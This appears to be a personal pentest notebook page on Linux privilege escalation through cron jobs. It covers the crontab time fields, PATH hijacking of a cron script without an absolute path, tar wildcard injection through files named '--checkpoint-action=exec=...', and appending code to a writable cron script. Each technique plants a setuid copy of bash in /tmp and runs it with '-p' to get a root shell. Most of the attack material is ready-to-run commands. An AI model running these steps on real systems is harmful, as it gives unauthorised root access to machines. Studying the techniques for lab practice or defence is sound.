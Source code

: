 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Cron Jobs

The first five fields at the beginning of the cron job entry are used to specify the scheduled time. These fields are used to specify the following values:

Minute (0 – 59): Used to specify the minute the cron job should be run.
Hour (0 – 23): Used to specify the hour of the day the cron job should be run.
Day of the month (1 – 31): Used to specify the specific day of the month the cron job should be run.
Month (1 – 12): Used to specify the month when the cron job should be run.
Day of the week (0 – 7): Used to specify the day of the week when the cron job should be run.

```bash - target
ls -lah /etc/cron*
```

Find and cat out **any** files.

```bash - target
grep "CRON" /var/log/cron.log
```

```bash - target
cat /etc/crontab 
```

Look at ==WHO IS RUNNING== the task, not who owns it!

![[Pasted image 20220324133531.png]]

![[Pasted image 20220324133642.png]]

![[1._Reverse Shells (LIN)#Python file root execute]]

Also check:
```bash - target
systemctl list-timers --all
```

![[Pasted image 20220220161524.png]]

#### Path Environment Variable

The crontab PATH environment variable is by default set to /usr/bin:/bin

The PATH variable can be overwritten in the crontab file.

If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

1. View the contents of the system-wide crontab:

```bash - target
cat /etc/crontab
```

>PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```* * * * * root overwrite.sh```
```* * * * * root /usr/local/bin/compress.sh```

![[Pasted image 20211230154452.png]]

Note that the /home/user directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path.

2. Create the file overwrite.sh in /home/user with the following contents:

[[1.2_Root Shell spawn#Script / cronjob]]


#### File nonexistant
Notice the path that is listed, how it starts with /home/user.  Let's check there to see if the file "overwrite.sh" exists:

```bash - target
ls -lah /home/user
```

It does not, so we can create the file to give us root.

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

```bash - target
chmod +x /home/user/overwrite.sh
```

The cron job runs every minute, so just wait until we see bash in /tmp directory, then run:

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220163029.png]]

#### Wildcards
```bash - target
cat /etc/crontab 
```

In this example, we look at /usr/local/bin/compress.sh

```bash - target
cat /usr/local/bin/compress.sh
```

![[Pasted image 20221115135824.png]]

We can take advantage of the wildcard character as seen above.  We'll create a malicious file called "runme.sh"

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
```

```bash - target
chmod +x runme.sh
```

```bash - target
touch /home/user/--checkpoint=1
```

```bash - target
touch /home/user/--checkpoint-action=exec=sh\runme.sh
```

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220164120.png]]

#### Append malicious code

![[Pasted image 20220220161524.png]]

We run ``'locate overwrite.sh'`` to find the location of the file, or, using the PATH, we begin hunting down the overwrite.sh file.  First we look in /home/user, not there, then /usr/local/sbin, not there, then finally we find it in /usr/local/bin.

```bash - target
ls -lah /usr/local/bin/overwrite.sh
```

We see we do have write privileges to the file.  Let's take a peek at what the file does.

```bash - target
cat /usr/local/bin/overwrite.sh
```

Now, we will append on our malicious code the file:

```bash - target
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```

```bash - target
/tmp/bash -p
```

![[Pasted image 20220220165112.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
